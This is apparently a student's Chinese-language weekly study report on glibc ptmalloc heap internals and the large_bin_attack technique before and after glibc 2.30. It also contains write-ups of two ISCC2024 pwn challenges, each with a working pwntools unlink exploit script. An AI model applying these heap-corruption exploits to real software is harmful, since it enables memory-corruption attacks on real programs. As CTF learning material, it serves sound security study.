






#### 1: chunk是啥?从哪里来?到哪里去?~~chunk晚饭吃什么?~~

之前在学习unlink时对ptmalloc堆管理机制有了初步的了解.所以现在打算稍微完整一点的对ptmalloc进行一个总结.(其实是去看了知识库里的unlink后,再到网上去看house_of系列时被一大堆知识库里没讲的东西给肘晕了)

##### chunks是啥?

自己去搜,实在不行翻译一下也能知道chunk是什么意思.

##### chunk从哪里来?

~~坏了,这下没法让别人自己去搜了~~

首先,当一个程序刚刚开始运行时,它的bins应当是空空荡荡的.什么fast_bin,tcache_bin,small_bin,large_bin,unsorted_bin,里面都不会有太多东西.
于是当我们要求malloc申请内存时,malloc也只能在空无一物的bins里转一圈,然后大吼一声,扑向heap.当然,如果heap里也没有足够的内存,系统就会使用brk拓展堆区,或者用mmap申请新的内存区域.

而当一个程序已经运行了一段时间,各种bins都塞满了杂七杂八的东西时,情况就会一下子变得复杂起来.

1. 首先,程序到tcache_bin(如果libc在2.28以上,并且启用了tcache_bin)和fast_bin中寻找合适(这里的合适指的是内存大小正好一样)的chunk.如果找到了自然是皆大欢喜,程序把找到的chunk送上去交差.
   但如果没找到,ptmalloc就会开始甩锅.tcache_bin会把锅甩给fast_bin,而fast_bin比较惨,它找不到也不能把锅甩回去,于是它只能去摇人.
2. 当然,这个摇人的过程也不是那么简单.首先,程序不会直接跑到small_bin或者large_bin里(这两个一般以0x200/0x400字节为界),而是先去翻unsorted_bin这个垃圾堆.程序会从这个垃圾堆里找出所有大于等于我们需要的chunk大小的chunk,一边找一边把它们丢进small_bin或者large_bin里.不过需要明确的是,small_bin和large_bin不是一个链表,而是一系列列表的总和.而这两种bin的数据组织方式也有所差别.small_bin为每种大小的chunk准备了一个链表,按照类似队列的组织方式管理它们.(新加入的chunk会被插入到链表头)而large_bin则比较复杂,我们待会再讲(咕咕咕)
3. 在排序完成后,程序才会到small_bin里找合适的chunk.如果没找到则去large_bin里去找.但这里的"合适"和1中的"合适"不同,它和2一样,只要大于等于我们需要的chunk就行.如果找到的第一个(也就是最小的那个)符合条件的chunk依旧大于我们需要的大小,程序就会将它分割成两个chunk,前者送上去完成任务,后者丢进fast_bin/tchche_bin或者丢回unsorted_bin,等待下一次的分配.
4. 如果在3之后依旧没有找到合适的chunk,程序则会和最开始说的一样,去向堆要内存.

之后,程序会把找到的chunk的指针返回给我们,让我们拿去使用.

##### chunk到哪里去?

这个问题倒是简单多了,被申请的chunk的指针会被记下来,然后只要不出现内存泄漏之类的幺蛾子,就不会出啥事了.而被释放的chunk如果小于max_fast,就会被丢到tcache_bin或fast_bin里;而大于max_fast的则会被丢到unsorted_bin里,然后在那待着或者被合并,或者等着下一次申请内存时被送进small_bin或large_bin里,然后在那待着或者被合并.

##### ~~chunk晚饭吃什么?~~

我不知道.不过如果我是chunk,今晚我会吃酸菜鱼.但可惜我不是chunk,所以我会感冒,所以今晚我吃不了酸菜鱼.

#### 2: large_bin_attack(libc2.30之前)

在上一篇周报里,我提到过fast_bin double_free.于是这次我打算来看看 large_bin_attack(这两件事之间真的有什么逻辑联系吗?)(不会写开场白可以不写)

那么让我们来看看large_bin是什么样的:(万幸,我找到了一张不错的图)



简而言之,一个large_bin是一个链表套链表的结构.不同大小的chunk之间通过fd_nextsize和bk_nextsize组成一个降序排列的双向环形链表(我不知道这玩意的具体名称是啥)而相同大小的chunk之间则和unsorted_bin中一样通过fd和bk组织.需要注意的是,对于同一大小的chunk,只有作为头节点的chunk的fd_nextsize和bk_nextsize存在.

chunk在large_bin中的排列为降序,如果大小相同,则按free时间排序.

嗯...应该没有其他需要了解的东西了,让我们开始.

首先,利用large_bin_attack需要我们能控制至少一个处于large_bin中的chunk,另外,我们还需要一个紧跟着它的chunk(ctfwiki中的原文是"从 unsorted bin 中来的 large bin chunk 要紧跟在被构造过的 chunk 的后面",我没有找到关于这句话的更多解释,只好把它抄过来).现在,我们malloc6个chunk,其中三个大小分别为0x350,0x410,0x410,我们称它们为chunk1,chunk2,chunk3(chunk2和chunk3大小相等的原因是large_bin事实上有很多个,相同的大小可以让它们被分到同一个large_bin,大概);另外三个加在每个较大的chunk后面,防止它们被合并.另外,我们还需要两个地址,我们称分别它们为add1和add2

在这之后,我们free掉chunk1和chunk2,之后再malloc一块较小的(如果fastbin里有chunk,则还需要大于max_fast)chunk,这样程序就会把大于我们需要的chunk的chunk1和chunk2分别丢进small_bin和large_bin,之后,程序会把chunk1分割一块下来完成任务,并把chunk1剩下的部分送回unsorted_bin里.

接着,我们修改chunk2的内容,将size修改为一个小于chunk3的值(如果chunk2本来就比chunk3小,我想这个步骤应该能省略)将fd和fd_nextsize置0.将bk置为add1-0x10,将bk_nextsize置为add2-0x20.

最后,我们free chunk3,并malloc一块较小的chunk,程序会尝试将chunk3放进large_bin中.由于chunk3大于chunk2,所以它会被加入到chunk2的前面.

```c++
chunk3->fd_nextsize=chunk2;
chunk3->bk_nextsize=chunk2->bk_nextsize;
chunk2->bk_nextsize=chunk3
chunk3->bk_nextsize->fd_nextsize=chunk3;
```

这样,我们就将add2写为了chunk3的地址.然后,出于类似原因,add1也会被写为chunk3的地址.

贴一下从网上找到的large_bin排序的相关代码:

```c++
            /* place chunk in bin */

            if (in_smallbin_range(size))
            {
                victim_index = smallbin_index(size);
                bck = bin_at(av, victim_index);
                fwd = bck->fd;
            }
            else
            {
                victim_index = largebin_index(size);
                bck = bin_at(av, victim_index);
                fwd = bck->fd;

                /* maintain large bins in sorted order */
                if (fwd != bck)
                {
                    /* Or with inuse bit to speed comparisons */
                    size |= PREV_INUSE;
                    /* if smaller than smallest, bypass loop below */
                    assert((bck->bk->size & NON_MAIN_ARENA) == 0);
                    if ((unsigned long)(size) < (unsigned long)(bck->bk->size)) // 直接取出来大小进行比较，大小被篡改也没影响
                    {
                        // size 是 unsortedbin chunk size，bck是largebin.bck
                        // 这是即将装入的 chunk 小的情况
                        // 主要是插入到第二个双链表中
                        fwd = bck;
                        bck = bck->bk;
                        // 设置新chunk的fd_nextsize与bk_nextsize为原本chunk的
                        victim->fd_nextsize = fwd->fd;
                        victim->bk_nextsize = fwd->fd->bk_nextsize;

                        fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
                    }
                    else    // 即将装入的chunk大于原本largebin chunk的情况
                    {
                        assert((fwd->size & NON_MAIN_ARENA) == 0);
                        // 找到一个刚好小于目标chunk的
                        while ((unsigned long)size < fwd->size)
                        {
                            fwd = fwd->fd_nextsize;
                            assert((fwd->size & NON_MAIN_ARENA) == 0);
                        }
                        // 大小相同就插入到后面，不需要处理nextsize链表
                        if ((unsigned long)size == (unsigned long)fwd->size)
                            /* Always insert in the second position.  */
                            fwd = fwd->fd;
                        else
                        {
                            // nextsize插入节点（双链表中间插入）
                            victim->fd_nextsize = fwd;
                            victim->bk_nextsize = fwd->bk_nextsize;
                            fwd->bk_nextsize = victim;
                            victim->bk_nextsize->fd_nextsize = victim;  // 第一个产生任意地址写的地方
                        }
                        bck = fwd->bk;  // 第二个产生任意写的地方（1
                    }
                }
                else
                    victim->fd_nextsize = victim->bk_nextsize = victim;
            }
            // 插入链表
            mark_bin(av, victim_index);
            victim->bk = bck;
            victim->fd = fwd;
            fwd->bk = victim;
            bck->fd = victim;   // 第二个产生任意写的地方（2
```

#### 3: large_bin_attack(libc2.30之后)

在libc2.30之后,多出来了一些新的安全检查:

```c++
  /* maintain large bins in sorted order */
                // 维护largebin的顺序
                if (fwd != bck)
                {
                    /* Or with inuse bit to speed comparisons */
                    size |= PREV_INUSE;
                    /* if smaller than smallest, bypass loop below */
                    assert(chunk_main_arena(bck->bk));
                    if ((unsigned long)(size) < (unsigned long)chunksize_nomask(bck->bk))
                    {
                        fwd = bck;
                        bck = bck->bk;

                        victim->fd_nextsize = fwd->fd;
                        victim->bk_nextsize = fwd->fd->bk_nextsize;
                        fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;   // 从这里进行任意写利用！
                    }
                    else
                    {
                        assert(chunk_main_arena(fwd));
                        while ((unsigned long)size < chunksize_nomask(fwd))
                        {
                            fwd = fwd->fd_nextsize;
                            assert(chunk_main_arena(fwd));
                        }

                        if ((unsigned long)size == (unsigned long)chunksize_nomask(fwd))
                            /* Always insert in the second position.  */
                            fwd = fwd->fd;
                        else
                        {
                            victim->fd_nextsize = fwd;
                            victim->bk_nextsize = fwd->bk_nextsize;
                            if (__glibc_unlikely(fwd->bk_nextsize->fd_nextsize != fwd)) //新的检查
                                malloc_printerr("malloc(): largebin double linked list corrupted (nextsize)");
                            fwd->bk_nextsize = victim;
                            victim->bk_nextsize->fd_nextsize = victim;
                        }
                        bck = fwd->bk;
                        if (bck->fd != fwd) //新的检查
                            malloc_printerr("malloc(): largebin double linked list corrupted (bk)");
                    }
                }
                else
                    victim->fd_nextsize = victim->bk_nextsize = victim;
            }
            // 添加到bin中，链表添加成员
            mark_bin(av, victim_index);
            victim->bk = bck;
            victim->fd = fwd;
            fwd->bk = victim;
            bck->fd = victim;
```

这样的话,我们就只能利用(unsigned long)(size) < (unsigned long)chunksize_nomask(bck->bk),也就是新的chunk小于bin中最小的chunk的情况.

在这种情况下,只修改bk_nextsize为目标地址-0x20,然后让一个小于被我们编辑过的chunk的chunk进入large_bin.另外,被编辑的那个chunk必须是large_bin中最小的一个.剩下的和2.30之前差别不大.

顺便把参考文献贴一下

> [堆利用详解：largebin attack - 吾爱破解 - 52pojie.cn](https://www.52pojie.cn/thread-1883424-1-1.html)
>
> [Large Bin Attack - CTF Wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/large-bin-attack/)
>
> [浅析Large_bins_attack在高低版本的利用 - 先知社区](https://xz.aliyun.com/t/15644?time__1311=Gqjxnii%3D0QqmqGNDQiiQGkFoOf4mrRDw0bD#toc-9)

#### 4:[ISCC2024]mygo~~!!!!!~~

二次元浓度最高的一集.

然而打开题目以后就能发现这题是相当没有新意的给你一个菜单的那种堆题(悲)



~~话说题目叫mygo,为啥是welcome to crychic~~

编辑:看来出题人是有远见的.



稍微审计一下代码,可以发现程序除了菜单中显示的1 2 3 4的情况以外,还有一种`v3==947`的情况.如果此时春日影(haruhikage)大于`0x1305`,就会调用后门函数mygo,否则继续下一次循环.

那么我们继续观察各个功能函数的代码,发现edit_song函数没有对chunk的大小进行检查,所以我们可以轻易地编辑到下一个chunk的内容.



那么接下来就是相当公式化的unlink,使用ctrl c+v编写脚本如下:

```python
from pwn import*
context.log_level='debug'
context.arch='amd64'

r=process("./mygo")
pause()
def cre_s(size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"1")
    r.sendline(str(size))
    r.send(content)

def edi_s(index,size,content):
    r.recvuntil(b"Your choice :")
    r.sendline(b"2")
    r.sendline(str(index))
    r.sendline(str(size))
    r.send(content.ljust(size,b'\x00'))

def del_s(index):
    r.recvuntil(b"Your choice :")
    r.sendline(b"3")
    r.sendline(str(index))

def itsmygo():
    r.recvuntil(b"Your choice :")
    r.sendline(b"947")

heap_add=0x6020E0

cre_s(0x48,b'a')
cre_s(0x80,b'a')
cre_s(0x80,b'a')

pay1=p64(0)+p64(0x41)+p64(heap_add-0x18)+p64(heap_add-0x10)+b'a'*0x20+p64(0x40)+p64(0x90)
edi_s(0,0x50,pay1)

del_s(1)
edi_s(0,0x20,p64(0)*3+p64(0x6020c0))
edi_s(0,0x8,p64(0x1306))

pause()
itsmygo()
r.interactive()
```



本地成功打通.

#### 5:[ISCC2024]hachimi

~~什么二次元烂梗大合集~~

由于这题从本质上来看和上一题没啥区别,所以我们直接来看漏洞代码


可以看到,程序在向当前chunk读入数据后,会将当前chunk数据域的指针加上当前chunk的大小的位置按位与0xFFFFFFFE,也就是将最后一个二进制位置为0.如果我们的chunk的大小是`0x?8`的话,这个位置就是下一个chunk的标志位.

那么接下来我们看main函数



可以发现我们需要将unk_202048改成一个大于0x505的数,然后程序就会进入后门函数.

虽然题目开了pie,但case5会泄露bss段的地址,所以这题又是公式化unlink.

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
r=process("./pwn")
pause()

def new_h(size,content):
    r.sendline(b"1")
    r.sendline(str(size))
    r.send(content)
    r.recv()
    return

def edit_h(index,content):
    r.sendline(b"3")
    r.sendline(str(index))
    r.send(content)
    r.recv()
    return

def del_h(index):
    r.sendline(b"2")
    r.sendline(str(index))
    return

def get_add():
    r.sendline(b"5")
    r.recvuntil(b"address:0x")
    return int(r.recv(12),16)


unk_add=get_add()+0x8

chunk_add=unk_add-0x8-0x202040+0x202060
print(hex(unk_add))

new_h(0x48,b'a')
new_h(0x80,b'a')
new_h(0x80,b'a')
pay1=p64(0)+p64(0x41)+p64(chunk_add-0x18)+p64(chunk_add-0x10)+b'a'*0x20+p64(0x40)

edit_h(0,pay1)
#pause()
del_h(1)
edit_h(0,p64(0x506))
r.sendline(b"5")

r.interactive()
```

成功打通.
